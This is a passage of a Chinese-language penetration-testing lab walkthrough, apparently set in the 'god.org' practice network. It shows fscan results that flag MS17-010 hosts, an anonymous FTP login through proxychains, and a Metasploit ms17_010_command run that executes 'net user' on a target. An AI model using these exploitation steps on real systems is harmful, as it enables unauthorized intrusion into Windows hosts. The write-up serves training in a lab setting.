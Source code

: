 ```bash
   [->]stu1
   [->]192.168.52.143
   [->]169.254.129.186
   [->]192.168.82.7
[+] 192.168.52.138  MS17-010    (Windows Server 2008 R2 Datacenter 7601 Service Pack 1)
[*] NetBios: 192.168.52.138  [+]DC owa.god.org                   Windows Server 2008 R2 Datacenter 7601 Service Pack 1
[*] NetInfo:
[*]192.168.52.141
   [->]root-tvi862ubeh
   [->]192.168.52.141
[+] 192.168.52.141  MS17-010    (Windows Server 2003 3790)
[*] WebTitle: http://192.168.52.141:7002 code:200 len:2632   title:Sentinel Keys License Monitor
[*] WebTitle: http://192.168.52.143     code:200 len:14749  title:phpStudy 探针 2014
[+] ftp://192.168.52.141:21:anonymous 
[*] WebTitle: http://192.168.52.138     code:200 len:689    title:IIS7
```

### FTP 弱口令连接 (141 机器)：

```bash
proxychains ftp
ftp> open 192.168.52.141 21
Name (192.168.52.141:root): anonymous
Password:
ftp> help
```

[![](assets/1701827767-a75b8f830108e89709d2f42d9e036fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202192219-0e0a9562-9105-1.png)

### MS17-010 永恒之蓝 (141 机器)：

fscan 和 nmap 扫描发现开放 445 端口：永恒之蓝漏洞通过 TCP 的 445 和 139 端口，来利用 v1 和 NBT 中的远程代码执行漏洞，通过恶意代码扫描并攻击开放 445 文件共享端口的 Windows 主机。只要用户主机开机联网，即可通过该漏洞控制用户的主机。

```bash
use auxiliary/admin/smb/ms17_010_command
set COMMAND net user
set RHOST 192.168.52.141
exploit
```
